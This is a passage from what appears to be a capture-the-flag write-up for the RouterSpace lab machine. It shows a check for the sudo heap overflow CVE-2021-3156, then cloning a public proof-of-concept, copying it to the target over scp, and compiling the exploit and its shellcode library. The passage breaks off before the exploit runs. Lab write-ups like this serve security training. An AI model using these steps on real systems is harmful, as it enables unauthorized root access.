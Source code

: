 #### Check Vulnerability

[This repo](https://github.com/CptGibbon/CVE-2021-3156) gives a nice check for vulnerability (in addition to a POC), `sudoedit -s Y`. If it asks for a password, it’s probably vulnerable. If it prints help, then it’s patched.

Looks promising:

```

paul@routerspace:/dev/shm$ sudoedit -s Y
[sudo] password for paul:

```

#### Exploit

I’ll clone the repo to my host, and follow the instructions to build the binary:

```

oxdf@hacky$ git clone git@github.com:CptGibbon/CVE-2021-3156.git
Cloning into 'CVE-2021-3156'...
remote: Enumerating objects: 13, done.
remote: Counting objects: 100% (13/13), done.
remote: Compressing objects: 100% (11/11), done.
remote: Total 13 (delta 1), reused 5 (delta 0), pack-reused 0
Receiving objects: 100% (13/13), 4.13 KiB | 4.13 MiB/s, done.
Resolving deltas: 100% (1/1), done.

```

I’ll `scp` it to RouterSpace:

```

oxdf@hacky$ scp -ri ~/keys/ed25519_gen CVE-2021-3156/ paul@routerspace.htb:/dev/shm/
README.md                                                            100%  692     7.4KB/s   00:00    
Makefile                                                             100%  208     2.3KB/s   00:00    
exploit                                                              100%   16KB  88.2KB/s   00:00    
x.so.2                                                               100%   14KB 142.9KB/s   00:00    
description                                                          100%   73     0.7KB/s   00:00    
index                                                                100%  441     4.7KB/s   00:00
...[snip]...

```

I’ll `make` it as indicated in the `README.md`:

```

paul@routerspace:/dev/shm/CVE-2021-3156$ make
mkdir libnss_x
cc -O3 -shared -nostdlib -o libnss_x/x.so.2 shellcode.c
cc -O3 -o exploit exploit.c

```
